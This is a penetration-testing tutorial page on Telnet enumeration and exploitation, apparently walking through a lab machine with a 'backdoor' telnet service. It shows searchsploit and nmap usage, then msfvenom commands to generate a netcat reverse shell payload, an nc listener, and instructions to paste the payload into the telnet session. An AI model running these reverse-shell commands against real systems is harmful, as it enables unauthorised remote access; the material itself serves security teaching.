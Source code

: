 ```yaml
---
layout: single
title: Telnet Enumeration & Exploiting
excerpt: "Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host."
date: 2021-08-31
classes: wide

categories:
  - Blue Team
  - infosec
  - Red Team
  - Services
tags:
  - Blue Team
  - Red Team
  - Services
---
```


## Searchsploit tricks

```
searchsploit <service version> #Example
searchsploit apache mod_ssl #Other example
searchsploit -m 7618 #Paste the exploit in current directory
searchsploit -p 7618[.c] #Show complete path
searchsploit -x 7618[.c] #Open vi to inspect the exploit
searchsploit --nmap file.xml #Search vulns inside an nmap xml result
```

## Default Port

```
23
```

# What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

# How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

# Connect

```
telnet 10.10.10.3 23
```

# Enumeration

We've already seen how key enumeration can be in exploiting a misconfigured network service. However, vulnerabilities that could be potentially trivial to exploit don't always jump out at us. For that reason, especially when it comes to enumerating network services, we need to be thorough in our method. 

# Port Scanning

Let's start out the same way we usually do, a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine. Scan the machine with nmap and the tag -A and -p-.


-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one

-p- : Enables scanning across all ports, not just the top 1000

# Types of Telnet Exploit

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

https://www.cvedetails.com/
https://cve.mitre.org/

A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

Method Breakdown

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

Connecting to Telnet

You can connect to a telnet server with the following syntax:

    "telnet [ip] [port]"

We're going to need to keep this in mind as we try and exploit this machine.


What is a Reverse Shell?

![113122ea801a42a98e48450877fb6af3](https://user-images.githubusercontent.com/89842187/131561421-5ab182ad-e481-4fee-a83c-2f70d9ed67ea.png)

A "shell" can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

# start listening for icmp
sudo tcpdump ip proto \\icmp -i tun0

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[] lport=[] R
.RUN <copypaste payload raw>
```
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

First run the netcat command to listen to our lport.
nc -lvp $lport

Then in the telnet session, run the payload generated by msfvenom earlier (basically copy/paste entire last line into the telnet session).

![b856c2593d3c477ba136f480f31b8048](https://user-images.githubusercontent.com/89842187/131560938-03eab854-bd4d-4e92-8023-81b0ae476726.png)

